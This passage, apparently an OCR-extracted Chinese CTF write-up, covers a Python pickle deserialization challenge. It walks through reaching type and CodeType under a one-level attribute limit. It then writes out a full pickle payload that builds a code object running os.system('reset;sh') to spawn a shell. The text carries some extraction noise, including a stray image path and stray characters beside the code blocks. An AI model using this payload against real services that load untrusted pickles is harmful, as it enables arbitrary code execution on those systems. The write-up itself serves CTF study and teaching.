 ```
/mnt/share/project/ctf_archives/test/python_sec/pickle/test.py
read
read
3
b'\x80\x00\xdd\x0b\x15\x90d\xd1\x0b\x1b\xd4\x0b\x1b\xd7\x0b"\xd2\x0b"\xa0:\xd1\x0b.\xd4\x0b.\xd0\x04.'
b''
()
()
```

正常情况下，可以通过 `__code__.__class__` 获取到 CodeType（pickle 协议 < 4 时不允许索引多层）， PROTO 指定协议版本为 4
```py
p = PROTO + b'\x04' + \
    GLOBAL + b'__main__\nSnakeWindow.__code__.__class__\n' + \
    STOP
print(loads(p))
# <class 'code'>
```
但这道题限制了只能索引一层。因此需要通过获取 type 函数，由于类的 `__class__` 属性就是 type 函数，我们可以通过 `SnakeSave.__class__` 获取 type 函数.
```py
SnakeSave.__class__(SnakeWindow.__code__.__class__)
# <class 'type'>
```属性
上述的代码转化为 pickle 后如下：
```py属性
        GLOBAL + b'__main__\nSnakeSave.__class__\n' + \
        GLOBAL + b'__main__\nSnakeWindow.__code__\n' + \
        TUPLE1 + REDUCE + \
```

获取到 CodeType 就可以传入参数并执行了：
```py
p = PROTO + b'\x04' + \
        GLOBAL + b'__main__\nSnakeSave.__class__\n' + \
        GLOBAL + b'__main__\nSnakeWindow.__code__\n' + \
        TUPLE1 + REDUCE + \
            MARK + \
                BININT1 + b'\x01' + \
                BININT1 + b'\x00' + \
                BININT1 + b'\x00' + \
                BININT1 + b'\x01' + \
                BININT1 + b'\x03' + \
                BININT1 + b'\x03' + \
                SHORT_BINBYTES + b'\x46' + b'\x97\x00t\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x01\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\xa0\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x02\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00S\x00' + \
                NONE + UNICODE + b'os\n' + UNICODE + b'reset;sh\n' + TUPLE3 + \
                UNICODE + b'__import__\n' + UNICODE + b'system\n' + TUPLE2 + \
                UNICODE + b'_\n' + TUPLE1 + \
                UNICODE + b'solve.py\n' + \
                UNICODE + b'read\n' + \
                UNICODE + b'read\n' + \
                BININT1 + b'\x03' + \
                SHORT_BINBYTES + b'\x1e' + b'\x80\x00\xdd\x0b\x15\x90d\xd1\x0b\x1b\xd4\x0b\x1b\xd7\x0b"\xd2\x0b"\xa0:\xd1\x0b.\xd4\x0b.\xd0\x04.' + \
                SHORT_BINBYTES + b'\x00' + \
                EMPTY_TUPLE + \
                EMPTY_TUPLE + \
            TUPLE + \
        REDUCE + \
    STOP

```